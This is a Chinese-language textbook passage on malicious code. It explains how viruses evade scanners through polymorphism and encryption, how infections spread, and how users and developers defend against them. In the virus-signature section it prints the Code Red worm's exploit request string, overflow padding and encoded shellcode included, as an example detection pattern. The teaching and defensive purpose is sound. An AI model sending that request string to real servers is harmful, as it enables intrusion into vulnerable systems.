杀毒软件和其他恶意代码扫描器寻找模式，因为恶意代码编写者在开发大众市场软件时有着与你相同的考量：他们想编写一套代码并分发给所有受害者。那些相同的代码在磁盘上就成为了一种模式，扫描器可以快速高效地搜索它。

知道扫描器寻找相同模式后，恶意代码编写者尝试通过几种方式改变其代码的外观：

- 重新排列模块的顺序。
- 重新排列指令的顺序（当顺序不影响执行时；例如 `A := 1; B := 2` 可以重新排列且无不良影响）。
- 插入无影响的指令（如 `A := A`）。
- 插入随机字符串（可能作为从未使用的常量）。
- 用等效的指令替换指令，例如用 `A := B + (–1)` 或 `A := B + 2 – 1` 替换 `A := B –1`。
- 插入从不执行的指令（例如，在始终为真的条件表达式的 `else` 部分中）。

这些都是相对简单的更改，恶意代码编写者可以为其构建工具，为每个用户生成唯一的副本。不幸的是（对代码编写者而言），即使对每个副本进行其中几项更改，仍将存在可识别的相同部分。我们将在本章后面讨论病毒扫描器作为恶意代码对策时，探讨恶意软件编写者面临的这一问题。

既然我们已经探讨了恶意代码的威胁方面，现在转向漏洞。正如我们在第 1 章所示，没有可利用的漏洞，威胁就是无害的。不幸的是，可供恶意代码利用的漏洞比比皆是。

## 恶意代码的引入

恶意代码获取系统访问权限的最简单途径，是由用户、系统所有者、管理员或其他授权代理引入。

防止病毒感染的唯一方法是不从受感染源接收可执行代码。这一原则过去很容易遵循，因为很容易判断文件是否可执行。例如，在 PC 上，`*.exe` 扩展名清楚地表明该文件是可执行的。然而，正如我们所指出的，如今的文件更加复杂，一个看似不可执行的带有 `*.doc` 扩展名的文件，其深处可能埋藏着可执行代码。例如，文字处理器可能在文档文件中包含命令。正如我们之前提到的，这些命令被称为宏，它们使用户轻松完成复杂或重复性任务，但它们实际上是嵌入在文档上下文中的可执行代码。同样，电子表格、演示幻灯片、其他办公或业务文件，甚至媒体文件，都可能包含可通过各种方式执行的代码或脚本——从而隐藏病毒。而且，正如我们所见，运行或使用这些文件的应用程序可能会试图“乐于助人”，自动调用可执行代码，无论你是否希望它运行！违背良好安全原则，电子邮件处理程序可被设置为自动打开（不执行访问控制）附件或为收件人嵌入代码，这样你的电子邮件就可以在顶部显示跳舞的动画小熊。

病毒编写者采用的另一种方法是利用微软文件设计中一个鲜为人知的特性，该特性涉及文件类型。虽然扩展名为 `*.doc` 的文件通常被认为是 Word 文档，但实际上，真正的文档类型隐藏在文件开头的一个字段中。表面上看，这种便利性有助于那些无意中将 Word 文档命名为 `*.ppt`（PowerPoint）或其他扩展名的用户。在某些情况下，操作系统会尝试打开关联的应用程序，但如果失败，系统会切换到隐藏文件类型对应的应用程序。因此，病毒编写者创建一个可执行文件，给它一个不合适的扩展名，并将其发送给受害者，将其描述为图片、必要的代码加载项或其他诱人的内容。不知情的接收者打开文件，无意中执行了恶意代码。

最近，利用一种称为隐写术的过程，可执行代码被隐藏在包含大量数据集的文件中，如图片或只读文档。这些病毒代码片段不易被病毒扫描器检测到，当然也逃不过人眼。例如，包含照片的文件可能具有高度细节，分辨率通常达到每英寸 600 个或更多色彩点（称为像素）。每隔十六个像素更改一个，人眼几乎察觉不到差异，因此病毒编写者可以将病毒的机器指令隐藏在大型图片中，每十六个像素隐藏一位代码。

**隐写术允许将数据隐藏在大型、复杂、冗余的数据集中。**

## 执行模式

病毒编写者可能希望病毒同时完成多项任务，即传播感染、逃避检测和造成破坏。这些目标如表 3-4 所示，表中还列出了实现每个目标的方法。不幸的是，许多此类行为完全正常，否则可能不会被察觉。例如，一个目标是修改文件目录；许多正常程序都会创建文件、删除文件并写入存储介质。因此，没有关键信号指向病毒的存在。


**表 3-4** 病毒效应及其成因

大多数病毒编写者寻求避免其本人及其作品被检测。由于磁盘的引导扇区在正常操作下不可见（例如，引导扇区的内容不显示在目录列表中），许多病毒编写者将代码隐藏在那里。驻留型病毒可以监控磁盘访问，并伪造会显示隐藏在引导扇区中病毒的磁盘操作结果，转而显示*本应*位于引导扇区的数据（病毒已将其移至别处）。

病毒造成的危害没有上限。在温和的一端，病毒可能什么都不做；一些编写者创建病毒只是为了证明他们能做到。或者病毒相对良性，在屏幕上显示消息、发出蜂鸣声或播放音乐。从那里开始，问题可能升级。一种病毒可以擦除文件，另一种擦除整个磁盘；一种病毒可以阻止计算机启动，另一种可以阻止写入磁盘。损害程度仅受限于病毒作者的创造力。

## 传播模式

病毒只有具备从一个位置传播到另一个位置的手段才有效。正如我们已经看到的，病毒可以在引导过程中通过附着到可执行文件或在数据文件中传播。传播本身发生在已感染程序的执行期间。既然病毒可以执行程序能执行的任何指令，病毒传播就不局限于任何单一介质或执行模式。例如，病毒可以通过软盘或网络连接到达，在宿主执行期间传播到硬盘引导扇区，下次宿主计算机启动时重新出现，并驻留在内存中以感染被访问的其他软盘。

### 多态病毒

病毒特征码可能是病毒扫描器识别病毒最可靠的方法。如果某个特定病毒总是以字符串 `0x47F0F00E08` 开头，且字符串 `0x00113FFF` 位于第 12 字，其他程序或数据文件不太可能具有这些确切特征。对于较长的特征码，正确匹配的概率会增加。

如果病毒扫描器总是查找这些字符串，聪明的病毒编写者就可以让这些位置出现其他内容。某些指令不产生任何效果，例如给数字加 0、将数字与自身比较或跳转到下一条指令。这些指令有时称为 `no-ops`（代表“无操作”），可以插入代码中以扭曲任何模式。例如，病毒可以有两个替代但等效的起始字；安装后，病毒将为其初始字选择这两个字中的一个。然后，病毒扫描器就必须查找两种模式。能够改变外观的病毒称为 **多态病毒**。（`Poly` 意为“多”，`morph` 意为“形态”。）

双形态多态病毒可以作为两个独立病毒轻松处理。因此，意图防止病毒被检测的病毒编写者将需要大量或无限数量的形态，使可能的形态数量大到病毒扫描器无法搜索。仅在病毒可执行版本的固定位置嵌入随机数或字符串是不够的，因为病毒的特征码只是那些固定不变的指令，不包括随机部分。多态病毒必须随机重新定位其所有部分并随机更改所有固定数据。因此，与其包含固定（因此可搜索）的字符串 `“HA! INFECTED BY A VIRUS”`，多态病毒必须有时甚至改变该模式。

简单假设，病毒编写者有 100 字节代码和 50 字节数据。为了使两个病毒实例不同，编写者可能将第一个版本分发为 100 字节代码后跟所有 50 字节数据。第二个版本可以是 99 字节代码、一条跳转指令、50 字节数据和最后 1 字节代码。其他版本为 98 字节代码跳转到最后两字节、97 字节跳转到最后三字节，依此类推。仅通过移动片段，病毒编写者就能创建足够多的不同外观来欺骗简单的病毒扫描器。然而，一旦扫描器编写者意识到这些伎俩，他们就改进了特征码定义和搜索技术。

一种简单的多态病毒变体使用不同密钥进行加密，使病毒的存储形式不同。这些有时称为 **加密病毒**。此类病毒必须包含三个不同部分：解密密钥、病毒的（加密）目标代码和解密例程的（未加密）目标代码。对于这些病毒，解密例程本身或对解密库例程的调用必须是明文的，因此那成了特征码。（参见 [PFL10d] 了解病毒编写者使用加密的更多信息。）

为避免检测，多态病毒的每个副本不必都与其他每个副本不同。如果病毒偶尔变化，并非每个副本都会匹配其他每个副本的特征码。

因为你无法总是知道哪些来源被感染，你应该假设任何外部来源都被感染。幸运的是，你知道何时正在从外部来源接收代码；不幸的是，切断与外部世界的所有联系是不可行的。恶意软件很少带有醒目的警告标志，实际上，正如侧边栏 3-8 所示，恶意软件通常旨在愚弄毫无戒心的人。

### 侧边栏 3-8 恶意软件非检测器

2010 年 5 月，美国对三名男子提出起诉，指控他们欺骗人们相信其计算机已被恶意代码感染 [FBI10]。这三名男子建立了计算机网站，这些网站首先会报告虚假且具有误导性的计算机错误消息，然后指示用户的计算机感染了各种形式的恶意软件。

根据起诉书，在发送虚假错误消息后，这些网站会诱导互联网用户购买名为“DriveCleaner”和“ErrorSafe”等软件产品，价格约为 30 美元至 70 美元。这些网站声称这些产品能清除受害者计算机中的感染，但实际上对改善或修复计算机性能几乎没有任何作用。美国联邦调查局（FBI）估计，这些网站为欺诈实施者带来了超过 1 亿美元的收入。

据称，实施者通过建立广告代理公司来实施欺诈，这些公司寻找合法的客户网站来托管广告。当受害用户访问客户网站时，恶意网络广告中的代码会劫持用户的浏览器并生成虚假错误消息。随后，用户会被重定向到一个所谓的 `scareware`（恐吓软件）网站，以恐吓用户其计算机存在安全弱点。该网站接着会显示一个图形，声称正在监控对受害者计算机进行恶意软件扫描，并（不出所料）发现了大量恶意软件。随后，用户会被邀请点击下载免费的恶意软件清除工具，该工具似乎只能修复少数漏洞，随后会要求用户升级到付费版本以修复其余漏洞。

被起诉的三人中有两名是美国公民，尽管据信其中一人居住在乌克兰；第三名是瑞典公民，据信居住在瑞典。三人均被指控电信诈骗和计算机诈骗。这三人经营一家名为 Innovative Marketing 的公司，该公司于 2003 年至 2008 年间因美国联邦贸易委员会（FTC）指控其销售欺诈性反恶意软件而被勒令关闭。

给无辜用户的建议似乎既是“信任但要核实”，也是“如果没坏，别修它”。也就是说，如果你被诱导购买安全产品，你怀疑的自我应该先运行自己信任的恶意软件扫描器，以核实系统中确实潜伏着恶意代码。

正如我们在侧边栏 3-8 中所见，引诱安全意识强的用户，没有比提供免费安全扫描工具更好的方法了。包括 Anti-Virus Group (AVG) 和微软提供的在内，有几款合法的防病毒扫描器是免费的。然而，其他扫描器提供的却是恶意软件，其效果范围从锁定计算机到勒索钱财以清理并不存在的感染。与所有软件一样，从未知来源获取软件时要小心。

## 自然免疫

在他们的一篇有趣论文中，Kephart 等人 [KEP93] 将计算机病毒传播与人类疾病传播进行了比较，他们观察到：个体为保持计算机无病毒所做的努力，导致社区普遍无病毒，因为社区成员与外界几乎没有（电子）接触。在这种情况下，传播受到遏制并非因为接触有限，而是因为与社区外部的接触有限，这正如孤立的人类社区很少经历麻疹等传染病爆发一样。

因此，政府通常运行断开连接的网络社区来处理最高机密的军事或外交秘诀。成功的关键似乎在于审慎地选择自己的社区。然而，随着互联网和万维网使用的增加，这种隔离几乎无法维持。此外，在人类和计算机社区中，自然防御往往较低，因此一旦发生感染，往往会不受控制地传播。人类计算机用户可能天真、无知且松懈，因此人类通往计算机感染的途径仍可能至关重要。

## 恶意软件工具包

银行劫匪必须独自学习和实践技艺。没有《银行抢劫入门》这本书（至少我们不知道有），有志成为罪犯的人也不能寄张支票就收到一盒装有所有必要工具的箱子。似乎存在一种学徒制，新罪犯与经验丰富的罪犯共事，但这是一个困难、冒险且耗时的过程，至少对我们这些局外人来说似乎是这样。

计算机攻击则有些不同。首先，存在一个繁荣的地下网站圈子，供黑客交换技术和知识。（与任何网站一样，读者必须评估内容的质量。）其次，攻击者通常可以在自己的实验室（家中）进行实验，然后再发起公开攻击。最重要的是，恶意软件工具包随处可买。有志成为攻击者的人可以像加载和运行任何其他软件一样轻松地获取、安装并激活这些工具包；使用它们比许多电脑游戏还容易。此类工具包以目标地址为输入，当用户按下 `[Start]` 按钮时，它会针对一系列漏洞发起探测。这类工具包用户无需理解他们试图利用的漏洞，被称为“脚本小子”。正如我们在本章前面指出的，这些工具包通常利用早已公开防御措施的旧漏洞。尽管如此，这些工具包对许多受害者仍然有效。

**恶意软件工具包让新手攻击者只需按一下按钮即可探测多种漏洞。**

易用性意味着攻击者不必理解，更不用说创建自己的攻击了。因此，在计算机安全领域，进攻似乎比防守更容易，这确实是事实。请记住，防御者必须防范所有可能的威胁，而攻击者只需找到一个未被防范的漏洞。

# 3.3 对策

到目前为止，我们已经描述了恶意软件编写者传播、隐藏和激活其恶意产品的技术。如果你认为这些黑客聪明、狡猾、勤奋且阴险，你是对的。而且他们似乎从不停止工作。防病毒软件制造商 McAfee 报告称，每分钟识别出 200 个独特的新恶意软件样本。2012 年初，其恶意软件库包含略少于 1 亿个项目，到 2013 年底已超过 1.96 亿个 [MCA14]。

面对如此围攻，用户很难保护自己，安全防御界总体上也承受着巨大压力。然而，并非全无希望。可用的对策并不完美，有些是反应性的——在攻击成功之后——而非预防性的，从开发人员到用户，所有相关方都必须尽责。在本节中，我们将调查可用于保持代码整洁和计算安全的对策。我们按必须采取行动的主体来组织本节：用户或开发人员，然后再添加一些看似吸引人但根本行不通的建议。

## 面向用户的对策

用户承受恶意软件感染的最大危害，因此用户必须实施第一道防线。用户可以通过对所有代码保持怀疑态度来做到这一点，随着代码来源变得越来越不可信，怀疑的程度也应随之增加。

### 用户警惕性

对抗恶意代码最简单的控制手段是卫生习惯：不从事允许恶意代码污染的行为。卫生习惯的两个组成部分是避免污染点和阻断脆弱性途径。

#### 防止恶意代码感染的技术

为避免污染，您可以简单地不使用计算机系统——这在当今世界并非现实的选择。但正如预防感冒和流感一样，有几种技术可用于构建一个相对安全的电子接触社区，包括以下几点：

*   **仅使用从可靠、知名供应商处获取的商业软件**。您始终有可能从人所共知的大型制造商处收到病毒。然而，此类企业拥有重要的声誉，哪怕一次不良事件也可能严重损害其声誉，因此它们会采取一定程度的措施来保持产品无病毒，并立即修补任何有问题的代码。同样，软件分发公司也会对其处理的产品保持谨慎。


*   **在隔离的计算机上测试所有新软件**。如果您必须使用来自可疑来源的软件，请先在一台未连接网络且不包含敏感或重要数据的计算机上测试该软件。运行软件并观察是否有意外行为，甚至是简单的行为，如屏幕上出现无法解释的数字。在运行可疑程序之前，使用一份创建于该程序运行前的最新病毒扫描器副本测试计算机。只有当程序通过这些测试时，才应将其安装在隔离程度较低的机器上。

*   **仅在确知附件及其他潜在受感染的数据文件安全时才打开它们**。什么构成“安全”由您决定，您在本章中可能已经学到了这一点。当然，来自未知来源的附件其安全性存疑。您可能也会不信任来自已知来源但带有奇特消息或描述的附件。

*   **仅在真正、完全确知软件及其他潜在受感染的可执行代码文件安全时才安装它们**。当软件包要求在您的系统上安装软件（包括插件或浏览器辅助对象）时，请保持高度怀疑。

*   **认识到任何网站都可能有潜在危害**。您可以合理地假设由黑客运营或面向黑客的网站有风险，提供色情内容、倒卖门票或销售违禁品的网站也是如此。您可能也会警惕位于某些国家的网站；俄罗斯、中国、巴西、韩国和印度通常位于包含恶意代码网站比例最高的榜单前列。网站可能位于任何地方，尽管 URL 末尾的 `.cn` 或 `.ru` 分别将域名与中国或俄罗斯关联。然而，由于大量网络托管提供商位于那里，美国也经常位于此类榜单的高位。

*   **制作可恢复的系统镜像并安全存储**。如果您的系统确实被感染，这个干净的版本将让您安全重启，因为它会用干净的副本覆盖损坏的系统文件。因此，您必须在重启期间保持镜像写保护。请立即准备此镜像，在感染发生前；感染后准备就太晚了。为安全起见，准备一份额外的安全启动镜像副本。

*   **制作并保留可执行系统文件的备份副本**。这样，在发生病毒感染时，您可以删除受感染的文件并从干净的备份副本重新安装（当然，存储在安全的离线位置）。还要制作并保留可能包含可感染代码的重要数据文件的备份；此类文件包括文字处理文档、电子表格、幻灯片演示文稿、图片、声音文件和数据库。将这些备份保存在廉价介质上，如 CD、DVD、闪存设备或可移动磁盘，以便您可以长期保留旧备份。万一发现感染，您希望能从干净的备份开始，即感染发生前制作的备份。

至于阻断系统漏洞，建议虽明确但存在问题。随着新漏洞的发现，您应应用补丁。然而，在时间压力下发现缺陷并修复它们往往不够完美有效。零日攻击尤其棘手，因为软件编写者推测未知的漏洞正被利用，因此制造商会施压开发和维护团队尽快开发并分发修复程序。此外，系统运行来自不同供应商的许多不同软件产品，但供应商的补丁无法也不考虑与其他软件的可能交互。因此，补丁不仅可能无法修复其预期的缺陷，还可能因与其他软件结合而失效或导致故障。确实出现过这样的情况：一个软件应用的补丁被杀毒检查器“错误识别”为恶意代码——导致系统停摆。因此，我们建议您应及时应用所有补丁，除非这样做会造成弊大于利，而这当然通常是您事先无法知道的。

尽管如此，良好的卫生习惯和自我防护是用户对抗恶意代码可采取的重要控制措施。大多数用户依赖工具（称为病毒扫描器或恶意代码检测器）来防范以某种方式进入系统的恶意代码。

---

**病毒检测器功能强大但非全能。**

---

### 病毒检测器

病毒扫描器是查找恶意代码感染迹象的工具。大多数此类工具寻找签名或指纹，即程序文件或内存中的明显模式。正如本节所示，检测工具通常是有效的，意味着它们能检测出大多数最多算得上有些复杂的恶意代码示例。然而，检测工具确实有两大局限性。

首先，检测工具必然是回顾性的，寻找已知感染的模式。随着新型感染代码的开发，工具需要频繁更新新模式。但即使频繁更新（大多数工具供应商建议每日更新），也会有感染过于新颖，尚未被分析并纳入最新模式文件。因此，恶意代码编写者拥有一个短暂的窗口期，短至几小时或一天，但如果新变种逃过了模式分析师的注意，可能会更长，在此期间该变种的模式不会在数据库中。即使一天是一个很短的机会窗口，也足以造成重大危害。

其次，模式必然是静态的。如果恶意代码总是以相同的四条指令开始，甚至包含相同的四条指令，这些指令的二进制代码可能就是工具搜索的不变模式。因为工具编写者希望避免将良性代码误判为恶意，他们寻求能找到的最长模式：一个良性程序和一个恶意程序可能碰巧包含相同的四条指令。但模式字符串越长，良性程序匹配该模式的可能性就越小，因此更长的模式是可取的。恶意代码编写者意识到模式匹配，因此他们改变代码以减少重复模式。有时指令顺序的微小扰动无关紧要。因此，在示例中，主要模式可能是按顺序的指令 `A-B-C-D`。但程序逻辑使用指令 `B-A-C-D` 可能效果一样好，所以恶意软件编写者会发送一半包含指令 `A-B-C-D` 的代码和一半包含 `B-A-C-D` 的代码。无操作指令，如加 0 或减 1 后再加 1，或用数据变量替换其自身，可以插入代码的各个点以打破重复模式。较长的模式更有可能被代码修改打破。因此，病毒检测工具编写者必须辨别更多要检查的模式。

时效性和变异性都限制了恶意代码检测器的有效性。尽管如此，这些工具在很大程度上是成功的，因此我们现在研究它们。您还应注意，如侧边栏 3-9 所述，防病毒工具也可以帮助*不*使用这些工具的人。

Symantec，Norton 杀毒软件包的制造商，在 2014 年 5 月 4 日的《华尔街日报》文章中宣布杀毒技术已死。他们认为，在系统上识别恶意代码是一场猫鼠游戏：恶意软件签名将永远是反应性的，反映的是昨天发现的代码模式，而启发式检测虽能发现可疑行为，但必须将代码样本转交实验室进行人工分析和确认。攻击者越来越善于通过模式匹配器和启发式检测器来逃避检测。此外，文章中 Symantec 信息安全高级副总裁承认，杀毒软件仅能捕获 45%的恶意代码。过去，另一家供应商 FireEye 也曾谴责这些工具无效。两家供应商都倾向于更专业的监控和分析服务，而杀毒扫描器通常只是第一道防线。

***

#### Sidebar 3-9 免费安全

每当流感威胁来临，政府都会敦促所有公民接种流感疫苗。并非所有人都会接种，但疫苗仍设法抑制了流感的发病率。只要有足够多的人接种疫苗，整个人群就能获得保护。这种保护被称为“群体免疫”，因为群体中的所有人都受到大多数人行动的保护，通常是因为足够多的接种阻止了感染的传播。

同样，有时网络中没有安全防护的部分会受到其他安全部分的保护。例如，网络上的一个节点可能不承担杀毒软件或防火墙的费用，因为知道如果网络中的其他节点受到保护，病毒或入侵者不太可能走远。因此，“搭便车”行为成为支付安全费用的反激励；逃避安全责任的人从他人的良好卫生习惯中获益。

同类的搭便车行为也会阻碍安全攻击和入侵的报告。正如我们所见，受攻击组织报告问题可能代价高昂，不仅在于投入报告的资源，还在于对声誉或股价的负面影响。因此，搭便车为受攻击组织提供了等待他人报告、然后从问题解决中获益的动机。类似地，如果第二个组织遭受攻击并与其他组织分享其信息和成功的响应技术，第一个组织将在不承担任何成本的情况下获得收益。因此，激励机制很重要，如果没有理解和正确使用技术的激励，技术实际上可能是无效的。

***

这是否意味着人们应该放弃病毒检查器？不，有两个原因。首先，考虑到目前流通的恶意代码标本超过 2 亿个，45%的捕获率仍代表了一道可靠的防线 [MCA14]。其次，要认识到该采访刊登在《华尔街日报》上，这是一份面向商业和金融高管的大众出版物。杀毒产品能赚钱；否则市场上不会有这么多此类产品。然而，咨询服务能赚更多的钱。Symantec 高管的观点是，阅读《华尔街日报》的企业高管需要投资聘请顾问，研究企业的计算活动，识别缺陷，并建议补救措施。一旦发生安全事件，组织也将需要类似的建议，以了解案件原因、损害程度和性质，以及进一步保护的后续步骤。

### 病毒签名

病毒不可能完全隐形。代码必须存储在某处，且必须在内存中才能执行。此外，病毒以特定方式执行，使用特定方法传播。这些特征中的每一个都会产生一种明显的模式，称为签名，可由寻找它的程序发现。病毒的签名对于创建称为病毒扫描器的程序非常重要，该程序可以检测病毒，并在某些情况下将其移除。扫描器搜索内存和长期存储，监控执行过程并监视病毒的明显签名。例如，寻找 Code Red 蠕虫迹象的扫描器可以查找包含以下字符的模式：

Click here to view code image

```
/default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN  
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN  
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN  
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN  
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN  
%u9090%u6858%ucbd3  
%u7801%u9090%u6858%ucdb3%u7801%u9090%u6858  
%ucbd3%u7801%u9090  
%u9090%u8190%u00c3%u0003%ub00%u531b%u53ff  
%u0078%u0000%u00=a HTTP/1.0
```

当扫描器识别出已知病毒的模式时，它可以阻止病毒、通知用户，并停用或移除病毒。然而，病毒扫描器只有在及时更新了当前病毒的最新信息时才有效。

---

**病毒编写者和杀毒工具制造商进行一场较量，以隐藏模式并发现那些规律性。**

---

### 代码分析

检测感染的另一种方法是分析代码，以确定其功能、传播方式，甚至可能追溯其来源。然而，这项任务很困难。

分析代码的第一个困难在于，研究人员通常只有最终产品可供查看。如图 3-24 所示，程序员用某种高级语言（如 C、Java 或 C#）编写代码。该代码由编译器或解释器转换为中间目标代码；链接器添加标准库例程的代码，并将结果打包为可执行的机器码。高级语言代码使用有意义的变量名、注释和文档技术，使代码至少对程序员而言是有意义的。


**FIGURE 3-24** 编译过程：(a) 编译。(b) 反编译

编译过程中，所有结构和文档都丢失了；仅保留原始指令。为加载程序以供执行，链接器合并被调用的库例程并执行地址转换。如果代码意在传播，攻击者还可能调用打包程序，这是一种剥离其他识别信息并最小化组合代码块大小的例程。

一旦发生感染，可能会请分析师介入。分析师从实际执行的、驻留在计算机内存中的代码开始分析，但这可能仅代表实际恶意包的一部分。对隐蔽性感兴趣的编写者会清理内存或磁盘，清除那些仅用于安装感染代码的不必要指令。无论哪种情况，分析都从机器指令开始。使用称为反汇编器的工具，分析师可以将机器语言二进制指令转换为其汇编语言等价物，但线索到此中断。这些汇编语言指令没有任何信息丰富的文档、变量名、结构、标签或注释，程序的汇编语言表示比其高级语言对应物难理解得多。因此，虽然分析师可以从字面上确定一段代码执行什么指令，但要确定这些语句的更广泛意图和影响则困难得多。

安全研究实验室在跟踪和分析恶意代码方面做得非常出色，但这种分析必然是一个在显微镜和镊子下小心翼翼、分步进行的操作（“显微镜和镊子”一词源自 Jerome Saltzer，见[EIC89]）。即使有分析工具，该过程也严重依赖人类的独创性。在第 10 章中，我们将详细介绍负责事件响应和分析的团队。

---

**事后用“显微镜和镊子”进行深思熟虑的分析，必须与病毒检测器等预防工具相辅相成。**

---

#### 存储模式

大多数病毒附着在存储在磁盘等介质上的程序上。附着的病毒片段是不变的，因此病毒代码的开头变成了可检测的特征码。附着的片段相对于其宿主文件始终位于同一位置。例如，病毒可能总是位于开头、距顶部 400 字节处，或感染文件的底部。最有可能的是病毒位于文件开头，因为病毒编写者希望在被感染程序的正版代码获得控制权之前控制执行。在最简单的情况下，病毒代码位于程序顶部，整个病毒在正常代码被调用前完成其恶意任务。在其他情况下，病毒感染仅由少量指令组成，这些指令指向或跳转到别处更详细的指令。例如，被感染的代码可能包含条件测试和一个跳转或调用独立病毒模块的指令。无论哪种情况，控制权转移到的代码也将具有可识别的模式。这两种情况如图 3-25 所示。


**图 3-25** 病毒中的可识别模式

病毒可能附着于文件，这种情况下文件大小会增长。或者病毒可能抹除底层程序的全部或部分，这种情况下程序大小不变，但程序功能将受损。病毒编写者必须在这些可检测的效果中二选一。

病毒扫描器可以使用代码或校验和来检测文件变化。它还可以寻找可疑模式，例如系统程序的第一条指令是 `JUMP` 指令（万一病毒将自己定位在文件底部但要最先执行，正如我们在图 3-25 中看到的那样）。

### 开发人员的对策

面对这种威胁背景，你可能会问如何才能编写出安全、可信、无瑕疵的程序。随着程序规模和复杂性的增长，攻击的可能性也随之增加。

在本节中，我们简要介绍一些已被证明能提高代码安全性的软件工程技术。当然，这些方法必须有效使用，因为好的方法如果使用不当或过于天真，不会凭空让程序变得更好。理想情况下，开发人员应对安全性有合理的理解，特别是要善于从威胁和漏洞的角度思考。凭借这种思维模式和良好的开发实践，程序员可以编写出保持安全性的代码。

#### 软件工程技术

代码通常具有较长的生命周期，并随着需求变化、故障被发现和修复而不断增强。因此，软件工程的一个关键原则是将设计或代码创建为小型、自包含的单元，称为组件或模块；当系统以这种方式编写时，我们称其为**模块化**。模块化为一般程序开发和安全性提供了特定优势。

如果一个组件与其他组件的影响相隔离，那么系统的设计就能限制任何故障造成的损害。系统维护更容易，因为出现的任何问题都能关联到导致它的故障。测试（特别是回归测试——确保在进行修正性更改时其他所有功能仍正常工作）更简单，因为对隔离组件的更改不影响其他组件。而且，如果组件是隔离的，开发人员可以轻松发现漏洞可能存在的位置。我们称这种隔离为**封装**。

**信息隐藏**是模块化软件的另一个特征。当信息被隐藏时，每个组件都将其精确实现或其他设计决策对其他组件隐藏。因此，当需要更改时，整体设计可以保持完好，而只需对特定组件进行必要的更改。

让我们更详细地看看这些特征。

##### 模块化

模块化是将任务划分为子任务的过程，如图 3-26 所示。这种划分通常基于逻辑或功能基础进行，以便每个组件执行任务的一个独立、分离的部分。目标是让每个组件满足四个条件：

*   `single-purpose`，执行单一功能
*   `small`，由人类易于掌握其结构和内容的适量信息组成
*   `simple`，具有低复杂度，以便人类易于理解模块的目的和结构
*   `independent`，执行与其他模块隔离的任务


**图 3-26** 模块化

其他组件特征，如具有单一输入和单一输出或使用有限的编程结构集，也表明了模块化。从安全角度来看，模块化应提高实现正确的可能性。

特别是，小规模和简单性有助于开发人员和分析师理解每个组件的功能。也就是说，在优秀的软件中，设计和程序单元应该仅大到或复杂到足以执行其所需功能的程度。拥有小型、独立的组件有几个优势。

*   **维护性**。如果一个组件实现单一功能，必要时可以轻松地用修订版替换它。新组件可能因需求、硬件或环境的变化而需要。有时替换是一种增强，使用更小、更快、更正确或其他方面更好的模块。该组件与设计或代码其余部分之间的接口很少且定义明确，因此替换的影响显而易见。

*   **可理解性**。 由小型简单组件组成的系统通常比一大块非结构化代码更容易理解。

*   **可复用性**。 为某一目的开发的组件通常可在其他系统中复用。复用正确的现有设计或代码组件可显著降低实现和测试的难度。

*   **正确性**。 如果组件各自仅执行一项任务，故障可迅速追溯到其原因。

*   **可测试性**。 具有明确定义的输入、输出和功能的单个组件可自行进行详尽测试，无需担心其对其他模块的影响（当然，预期的功能和输出除外）。

---

**软件设计的简洁性提高了正确性和可维护性。**

---

模块化组件通常具有高内聚和低耦合。**内聚**是指组件的所有元素都有逻辑和功能上的理由存在；组件的各个方面都与其单一目的相关联。高内聚组件高度聚焦于其目的；低内聚意味着组件内容是不相关动作的杂乱组合，通常因时间依赖或方便而凑在一起。

**耦合**是指组件依赖系统中其他组件的程度。因此，低或松散耦合优于高或紧密耦合，因为松散耦合的组件免受其他组件无意干扰。这种耦合差异如图 3-27 所示。


**图 3-27** 耦合类型

##### 封装

封装隐藏了组件的实现细节，但这并不一定意味着完全隔离。许多组件必须与其他组件共享信息，通常有充分的理由。然而，这种共享经过精心记录，以便组件仅以已知方式受到系统中其他组件的影响。共享被最小化，以便使用尽可能少的接口。

封装组件的保护边界可根据需要设为半透明或透明。Berard [BER00] 指出，封装是“一种将[组件内部]信息打包的技术，以隐藏应隐藏的内容，并使预期可见的内容可见。”

##### 信息隐藏

在强调模块化的环境中工作的开发人员可以确信，其他组件对其编写的组件只有有限的影响。因此，我们可以将组件视为一种黑盒，具有特定的、定义良好的输入和输出以及定义良好的功能。其他组件的设计人员无需知道模块如何完成其功能；只需确信该组件能以某种正确的方式执行其任务即可。

> **信息隐藏：描述模块“做什么”，而非“怎么做”**

这种隐藏即为信息隐藏，如图 3-28 所示。信息隐藏是可取的，因为如果恶意开发者不知道组件如何工作，就不容易篡改他人的组件。


**图 3-28** 信息隐藏

#### 相互怀疑

程序并不总是可信的。即使有操作系统强制执行访问限制，也可能无法或难以有效限制未经测试程序的访问权限。在这种情况下，用户 U 有理由怀疑新程序 P。然而，程序 P 可能被另一个程序 Q 调用。Q 无法知道 P 是否正确或恰当，就像用户无法知道 P 的情况一样。


因此，我们使用**相互怀疑**的概念来描述两个程序之间的关系。相互怀疑的程序的运作方式，就像系统中的其他例程是恶意的或不正确的一样。调用程序不能信任其被调用的子过程是正确的，被调用的子过程也不能信任其调用程序是正确的。每一方都保护其接口数据，使另一方只有有限的访问权。例如，一个对列表条目进行排序的过程不能被信任不会修改这些元素，而该过程也不能信任其调用者会提供任何列表，或提供预测数量的元素。侧栏 3-10 描述了一个错误信任的例子。

> **侧栏 3-10 因错误处理不当导致的 Facebook 停机事故**
>
> 2010 年 9 月，流行的社交网站 Facebook 被迫关闭数小时。据公司代表 Robert Johnson 发帖称，根本原因是一个被不当处理的错误条件。
>
> Facebook 在持久存储中维护一组配置参数，随后将其复制到缓存供日常使用。代码检查缓存中参数的有效性。如果发现无效值，它会从持久存储中获取该值，并用它替换缓存值。因此，开发人员假设缓存值可能会损坏，但持久存储值始终准确。
>
> 在 2010 年 9 月的事故中，工作人员错误地将一个不正确的值放入了持久存储。当该值传播到缓存时，检查例程将其识别为错误，并导致缓存控制器从持久存储中获取该值。当然，持久存储值是错误的，因此检查例程一旦检查它，又会再次要求从持久存储中替换。这种对持久存储的持续获取导致持有持久存储的服务器过载，进而导致整体性能严重下降。
>
> Facebook 工程师诊断出了问题，认为最佳解决方案是禁用所有 Facebook 活动，然后修正持久存储值。他们逐步允许 Facebook 客户端重新激活；当每个客户端检测到其缓存中有不准确的值时，会从持久存储中正确的值刷新它。通过这种方式，服务的逐步扩展使这些刷新请求得以发生，而不会使持久存储服务器不堪重负。
>
> 相互怀疑的设计——不隐含假设缓存是错的而持久存储是对的——本可以避免这场灾难。

